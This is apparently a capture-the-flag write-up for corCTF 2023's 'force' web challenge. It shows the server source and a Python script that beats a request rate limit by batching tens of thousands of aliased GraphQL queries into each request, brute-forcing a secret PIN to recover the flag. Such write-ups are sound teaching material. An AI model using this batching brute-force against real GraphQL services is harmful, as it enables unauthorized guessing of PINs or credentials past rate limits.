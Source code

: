 # corCTF 2023

## Web/force

## Challenge Overview

`Description`: Unbreakable vault door!

![Index](./images/index.png)

We have been given a website with a query in it.

So first let's see the source code given.

```js
import fastify from 'fastify';
import mercurius from 'mercurius';
import { randomInt } from 'crypto';
import { readFile } from 'fs/promises';

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5);

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin !== secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{REDACTED}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u');
    }
    requests--;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 4020 });
```
So it generates a random integer named `secret` from 0 to 100000 and if we send the query in the given format with pin matching the secret it will give us the flag but the problem is there are 100000 possibilities and we can't bruteforce also because we can send only 10 request per 60 seconds.

## Vulnerability Identification

So we have to find a way in which we can send different pins multiple times in the 1 post request.

There is a technique named `graphql-batching-attack` in which we can send multiple query in 1 post request as given below in image.

![Reference](./images/reference.png)

[Reference](https://lab.wallarm.com/graphql-batching-attack/)


## Exploiting the Vulnerability

So to exploit it we will be sending the query with 30000 flags each time with the below given python sctipt.

```python
import requests
import re

headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}
url = 'https://web-force-force-a2e5f8d6b3c3a1f9.be.ax/'

for i in range(4):
    query = ''
    print(f'trying from {i * 30000} to {(i + 1) * 30000 - 1}')
    
    for x in range(i * 30000, (i + 1) * 30000):
        query += f'flag{x} : flag(pin: {x})\n'
    response = requests.post(url, headers=headers, data=f'{{{query}}}')
    
    if 'corctf{' in response.text:
        flag = re.search(r'corctf\{.*?\}', response.text)
        if flag:
            print(f"Found flag on : {flag.group(0)}") 
            break

```

## Obtaining the Flag

Hence after running the script we get the flag

![Flag](./images/flag.png) 

Flag: **corctf{S&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;T&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;O&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;N&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;K&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S}**

Thank You
